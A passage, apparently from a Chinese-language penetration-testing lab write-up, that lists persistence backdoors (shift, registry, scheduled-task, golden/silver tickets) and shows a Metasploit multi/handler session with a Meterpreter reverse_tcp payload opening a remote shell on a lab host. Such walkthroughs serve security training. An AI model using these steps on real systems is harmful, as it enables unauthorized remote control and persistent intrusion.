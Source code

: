 > 还可以采用其它权限维持的方法，比如shift后门、注册表后门、计划后门、白银黄金票据等

![image-20220815002731903](./st1.assets/image-20220815002731903.png)



## 横向探测

### 法一：MSF (*这里也写了ProxyChains)

> 可跳转至前面的 内网渗透，内容近似。



先拿一个msf shell

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 3 opened (192.168.220.137:9999 -> 192.168.220.138:6500 ) at 2022-08-14 12:45:28 -0400

meterpreter > 
```

添加路由
